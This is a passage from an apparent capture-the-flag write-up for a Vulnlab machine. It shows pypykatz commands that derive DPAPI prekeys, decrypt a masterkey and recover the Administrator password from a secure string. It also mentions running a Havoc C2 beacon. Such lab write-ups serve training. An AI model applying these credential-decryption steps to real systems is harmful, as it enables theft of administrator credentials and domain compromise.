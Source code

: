 Normally we'd just use [Mimikatz](https://github.com/ParrotSec/mimikatz) and use the `masterkey` to decrypt the credential, but not only do we not have debug privilege to do that - we also don't have the ability to run `mimikatz` due to our low-level privilege. (And also we aren't dealing with a blob, but instead a secure string)

We'll need to do this locally in order to decrypt the string efficiently. We can use a tool called [PyPyKatz](https://github.com/skelsec/pypykatz), which is a built-in tool on the latest version of Kali.

First we'll need to develop a few pre-keys to retrieve a proper plaintext `masterkey` that's derived on the domain SID and our current user's credentials.

```
└─$ pypykatz dpapi prekey password 'S-1-5-21-2355092754-1584501958-1513963426-1117' '[...snip...]'
76409e35c7b1e6cb267597498c3b9707b4884d3a
ca7dff911d9d033bfb16392388405b95a58e1896
ea6776f7e4fc1866d86e2858393ceee0c62020e0
```

We'll now need to use one of these 3 pre-keys to develop the plaintext version of the `masterkey`. We can download the `masterkey` locally and use it as the file to run `pypykatz` against.

I got lucky with the last pre-key, it seems that the other above it are invalid. It really all comes down to trial-and-error, run each pre-key against `pypykatz` to see which one of them works.

```
└─$ pypykatz dpapi masterkey ~/tech/vl/lustrous/dff9ecd4-2ab1-4eed-ab72-b909047c4e56 ea6776f7e4fc1866d86e2858393ceee0c62020e0 -o mkf
```

This will save the `masterkey` into a JSON-formatted file that `pypykatz` can parse in our next command. If you don't run it with `-o (filename)`, you'll see that the decrypted `masterkey` will be printed out to the screen.

Let's now use our decrypted `masterkey` to decrypt the secure string. I saved the secure string to a `txt` file which seemed to work for me.

```
└─$ pypykatz dpapi securestring mkf admin_1.txt
Error! non-hexadecimal number found in fromhex() arg at position 2
HEX: 58005a00390069003d006200670[...snip...]e003900640052004600
STR: [...snip...]
```

You'll see next to `STR` is the decrypted password for the Administrator user. Seems that we were able to decrypt it properly and can now use it to authenticate to the machine!

![](/images/vulnlab/lustrous-vl/e.jpg)

The first flag is within `C:\Users\Administrator\Desktop\flag.txt`. I'll also run our Havoc binary again so we can load a beacon as this user.

![](/images/vulnlab/lustrous-vl/f.jpg)

Our next goal is to enumerate what we can do on this machine and see how we can get onto the DC.

# Pivoting to the DC
